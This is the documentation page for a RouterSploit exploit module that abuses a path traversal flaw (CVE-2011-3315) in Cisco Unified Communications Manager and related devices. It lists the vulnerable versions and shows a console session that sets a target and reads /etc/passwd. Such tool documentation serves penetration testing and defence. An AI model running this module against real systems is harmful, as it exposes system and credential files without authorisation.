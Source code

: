 # Cisco Unified Multi Path Traversal

## Description
Module exploits path traversal vulnerability in Cisco Unified Communications Manager, Cisco Unified Contact Center Express and Cisco Unified IP Interactive Voice Response devices.If the target is vulnerable it allows to read files from the filesystem.

## Authors
* Facundo M. de la Cruz (tty0) <fmdlc[at]code4life.com.ar> # vulnerability discovery
* Marcin Bury <marcin.bury[at]reverse-shell.com> # routersploit module

## References
* [https://www.exploit-db.com/exploits/36256/](https://www.exploit-db.com/exploits/36256/)
* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3315](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2011-3315)

## Vulnerable devices
* Cisco Unified Communications Manager 5.x
* Cisco Unified Communications Manager 6.x < 6.1(5)
* Cisco Unified Communications Manager 7.x < 7.1(5b)
* Cisco Unified Communications Manager 8.x < 8.0(3)
* Cisco Unified Contact Center Express
* Cisco Unified IP Interactive Voice Response < 6.0(1)
* Cisco Unified IP Interactive Voice Response 7.0(x) < 7.0(2)
* Cisco Unified IP Interactive Voice Response 8.0(x) < 8.5(1)

## Usage
```
rsf > use exploits/cisco/unified_multi_path_traversal
rsf (Cisco Unified Multi Path Traversal) > show options

Target options:

   Name       Current settings     Description
   ----       ----------------     -----------
   target                          Target address e.g. http://192.168.1.1
   port       80                   Target Port


Module options:

   Name         Current settings     Description
   ----         ----------------     -----------
   filename     /etc/passwd          File to read from the filesystem


rsf (Cisco Unified Multi Path Traversal) > set target 192.168.1.1
[+] {'target': '192.168.1.1'}
rsf (Cisco Unified Multi Path Traversal) > run
[*] Running module...
```
